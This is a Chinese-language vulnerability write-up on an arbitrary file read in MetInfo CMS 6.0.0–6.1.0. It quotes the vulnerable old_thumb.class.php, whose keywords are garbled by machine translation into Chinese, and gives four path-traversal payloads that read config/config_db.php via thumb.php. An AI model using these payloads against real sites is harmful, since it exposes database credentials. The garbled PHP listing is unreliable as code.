 # MetInfo 任意文件读取

> 原文：[http://book.iwonder.run/0day/MetInfo/2.html](http://book.iwonder.run/0day/MetInfo/2.html)

## 一、漏洞简介

MetInfo 是一套使用 PHP 和 Mysql 开发的内容管理系统。 MetInfo 6.0.0~6.1.0 版本中的 old_thumb.class.php 文件存在任意文件读取漏洞。攻击者可利用漏洞读取网站上的敏感文件

## 二、漏洞影响

MetInfo 6.0.0 MetInfo 6.1.0

## 三、复现过程

### 漏洞分析

进攻分析 看下\MetInfo6\app\system\include\module\old_thumb.class.php

```
<？php 
＃MetInfo 企业内容管理系统
＃版权所有（C）MetInfo Co.，Ltd（http://www.metinfo.cn）。版权所有。

define（'IN_MET'）或 退出（'No 权限'）;

load :: sys_class（'web'）;

class  old_thumb  扩展了 网络 {

      公共 功能 doshow （） { 全局 $ _M;

        $ DIR = str_replace 函数（'../' ，''，$ _GET [ '目录' ]）;

        if（strstr（str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ dir），'http'））{ 
            header（“ Content-type：image / jpeg”）; 
            ob_start（）; 
            readfile（$ dir）; 
            ob_flush（）; 
            flush（）; 死 ;         }

        if（$ _M [ 'form' ] [ 'pageset' ]）{ 
          $ path = $ dir。“＆met-table = {$ _ M ['form'] ['met-table']}＆met-field = {$ _ M ['form'] ['met-field']}”“；

        } else { 
          $ path = $ dir; 
        } 
        $ image = thumb（$ path，$ _ M [ 'form' ] [ 'x' ]，$ _ M [ 'form' ] [ 'y' ]）; if（$ _M [ 'form' ] [ 'pageset' ]）{           $ img = explode（'？'，$ image）;           $ img = $ img [ 0 ];         } else {           $ img = $ image;         } if（$ img）{             header（“ Content-type：image / jpeg”）;             ob_start（）;

            readfile（PATH_WEB.str_replace（$ _ M [ 'url' ] [ 'site' ]，''，$ img））; 
            ob_flush（）; 
            flush（）; 
        }

    } 
}

＃此程序是一个开放源代码系统，可用于商业用途，请自觉购买商业许可证。
＃版权所有（C）MetInfo Co.，Ltd.（http://www.metinfo.cn）。版权所有。
？> 
```

从代码中看用看到，$dir 直接由$_GET['dir']传递进来，并将../置空。目标是进入到第一个，如果里面的 readfile($dir);，读取文件。看看如果语句的条件，的英文外面一个 strstr 函数，判断$dir 中 http 字符串的首次出现位置，实质上，要进入到这个 if 语句里面，$dir 中必须包含 http 字符串。里面的将$dir 中包含$_M['url']['site']的部分放置空，这里可以不用管。

![image](img/b3e84185dc193542dd5d8825df7c889b.png)

从上面的分析可以构造出有效负载，只要$dir 里包含 http 字符串就可以进入到 readfile 函数从而重新读取任意函数，然后可以使用..././来进行目录替换，因为../会被置空，所以最终 payload 如下

```
?dir=..././http/..././config/config_db.php 
```

```
?dir=.....///http/.....///config/config_db.php 
```

```
?dir=http/.....///.....///config/config_db.php 
```

```
?dir=http\..\..\config\config_db.php 
```

### 漏洞复现

要先找到调用 old_thumb.class.php 的文件，看到 include/thumb.php，可以从这个文件里面进入到 old_thumb.class.php

```
<?php
# MetInfo Enterprise Content Management System
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved.
define('M_NAME', 'include');
define('M_MODULE', 'include');
define('M_CLASS', 'old_thumb');
define('M_ACTION', 'doshow');
require_once '../app/system/entrance.php';
# This program is an open source system, commercial use, please consciously to purchase commercial license.
# Copyright (C) MetInfo Co., Ltd. (http://www.metinfo.cn). All rights reserved.
?> 
```

所以我们通过 thumb.php 将构造好的$dir 传入即可。

![image](img/8622c627aa4db79a2588f1abb05c142b.png)

可以看到成功的读取到了 config/config_db.php 的内容。

